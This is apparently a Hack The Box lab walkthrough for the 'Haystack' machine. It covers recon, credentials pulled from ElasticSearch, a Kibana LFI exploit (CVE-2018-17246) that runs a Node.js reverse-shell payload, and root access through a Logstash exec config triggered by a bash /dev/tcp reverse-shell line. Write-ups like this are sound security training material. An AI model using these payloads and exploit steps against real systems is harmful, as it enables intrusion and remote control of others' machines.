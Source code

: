 ## HTB: Haystack Walkthrough

---

### 🧭 Recon

#### Nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.115
nmap -sC -sV -p 22,80,9200 -oA scans/nmap-scripts 10.10.10.115
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9200 (ElasticSearch/HTTP)

#### Port 80 - Website
- Basic HTML page with image: `needle.jpg`
- `strings -n 20 needle.jpg` → revealed base64: `bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==`
- Decoded: `la aguja en el pajar es "clave"`

#### Port 9200 - ElasticSearch
```
curl http://10.10.10.115:9200/_cat/indices?v
```
- Notable indexes: `quotes`, `bank`, `api`, `.kibana`

#### Extracting sensitive strings
```
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'{"query": {"match_all": {}}}' | jq -c '.hits.hits[]' | grep clave
```
- Found base64 encoded user and password:
```
echo dXNlcjogc2VjdXJpdHkg | base64 -d  # user: security
echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d  # pass: spanish.is.key
```

### 🐚 Shell as security
```
ssh security@10.10.10.115
```
- Successfully authenticated.
- Grab `user.txt`

### 📦 Port Forwarding to Kibana
```
ssh -L 5601:localhost:5601 security@10.10.10.115
```
- Access Kibana via: http://localhost:5601

### 🐚 Shell as kibana

#### Kibana CVE-2018-17246
- Create payload at `/dev/shm/0xdf.js`:
```js
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(443, "10.10.14.8", function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
  });
  return /a/;
})();
```
- Trigger LFI execution:
```
curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../dev/shm/0xdf.js'
```
- Catch reverse shell: `nc -lnvp 443`

### 🧪 Privesc: kibana → root

#### Logstash Misconfiguration
- Logstash runs as **root**
- Kibana can read `/etc/logstash/conf.d` configs

##### Relevant config snippets:
- **input.conf**: watches `/opt/kibana/logstash_*` files
- **filter.conf**: parses `Ejecutar comando: <COMMAND>`
- **output.conf**: uses `exec` plugin to run the command

##### Trigger
```
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_rootme
```
- Catch shell: `nc -lnvp 443`

### 🏁 Root access
```
id
cat /root/root.txt
```

---

## ✅ Summary
- Recon revealed ElasticSearch and Kibana
- Found SSH credentials via stego in ElasticSearch
- Used Kibana LFI (CVE-2018-17246) to gain shell as kibana
- Privileged escalation through Logstash input config
- Root compromise complete

---

## 🏷 Tags
`ElasticSearch`, `Kibana`, `CVE-2018-17246`, `Logstash`, `File Monitoring`, `Reverse Shell`, `HTB`, `Privilege Escalation`, `Command Injection`, `Steganography`, `SSH`

